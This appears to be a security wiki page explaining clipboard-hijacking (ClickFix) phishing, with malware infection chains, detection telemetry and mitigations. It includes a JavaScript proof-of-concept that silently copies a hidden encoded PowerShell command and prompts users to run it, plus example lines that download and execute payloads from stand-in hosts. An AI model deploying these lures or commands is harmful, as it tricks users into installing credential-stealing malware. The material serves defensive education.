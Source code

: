 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Never paste anything you did not copy yourself." – old but still valid advice

## Overview

Clipboard hijacking – also known as *pastejacking* – abuses the fact that users routinely copy-and-paste commands without inspecting them. A malicious web page (or any JavaScript-capable context such as an Electron or Desktop application) programmatically places attacker-controlled text into the system clipboard. Victims are encouraged, normally by carefully crafted social-engineering instructions, to press **Win + R** (Run dialog), **Win + X** (Quick Access / PowerShell), or open a terminal and *paste* the clipboard content, immediately executing arbitrary commands.

Because **no file is downloaded and no attachment is opened**, the technique bypasses most e-mail and web-content security controls that monitor attachments, macros or direct command execution. The attack is therefore popular in phishing campaigns delivering commodity malware families such as NetSupport RAT, Latrodectus loader or Lumma Stealer.

## JavaScript Proof-of-Concept

```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
  const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
  navigator.clipboard.writeText(payload)
    .then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```

Older campaigns used `document.execCommand('copy')`, newer ones rely on the asynchronous **Clipboard API** (`navigator.clipboard.writeText`).

## The ClickFix / ClearFake Flow

1. User visits a typosquatted or compromised site (e.g. `docusign.sa[.]com`)
2. Injected **ClearFake** JavaScript calls an `unsecuredCopyToClipboard()` helper that silently stores a Base64-encoded PowerShell one-liner in the clipboard.
3. HTML instructions tell the victim to: *“Press **Win + R**, paste the command and press Enter to resolve the issue.”*
4. `powershell.exe` executes, downloading an archive that contains a legitimate executable plus a malicious DLL (classic DLL sideloading).
5. The loader decrypts additional stages, injects shellcode and installs persistence (e.g. scheduled task) – ultimately running NetSupport RAT / Latrodectus / Lumma Stealer.

### Example NetSupport RAT Chain

```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```

* `jp2launcher.exe` (legitimate Java WebStart) searches its directory for `msvcp140.dll`.
* The malicious DLL dynamically resolves APIs with **GetProcAddress**, downloads two binaries (`data_3.bin`, `data_4.bin`) via **curl.exe**, decrypts them using a rolling XOR key `"https://google.com/"`, injects the final shellcode and unzips **client32.exe** (NetSupport RAT) to `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader

```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```

1. Downloads `la.txt` with **curl.exe**
2. Executes the JScript downloader inside **cscript.exe**
3. Fetches an MSI payload → drops `libcef.dll` besides a signed application → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer via MSHTA

```
mshta https://iplogger.co/xxxx =+\\xxx
```

The **mshta** call launches a hidden PowerShell script that retrieves `PartyContinued.exe`, extracts `Boat.pst` (CAB), reconstructs `AutoIt3.exe` through `extrac32` & file concatenation and finally runs an `.a3x` script which exfiltrates browser credentials to `sumeriavgv.digital`.

## Detection & Hunting

Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` keeps a history of **Win + R** commands – look for unusual Base64 / obfuscated entries.
* Security Event ID **4688** (Process Creation) where `ParentImage` == `explorer.exe` and `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** for file creations under `%LocalAppData%\Microsoft\Windows\WinX\` or temporary folders right before the suspicious 4688 event.
* EDR clipboard sensors (if present) – correlate `Clipboard Write` followed immediately by a new PowerShell process.

## Mitigations

1. Browser hardening – disable clipboard write-access (`dom.events.asyncClipboard.clipboardItem` etc.) or require user gesture.
2. Security awareness – teach users to *type* sensitive commands or paste them into a text editor first.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control to block arbitrary one-liners.
4. Network controls – block outbound requests to known pastejacking and malware C2 domains.

## Related Tricks

* **Discord Invite Hijacking** often abuses the same ClickFix approach after luring users into a malicious server:
  
{{#ref}}
  discord-invite-hijacking.md
  {{#endref}}

## References

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
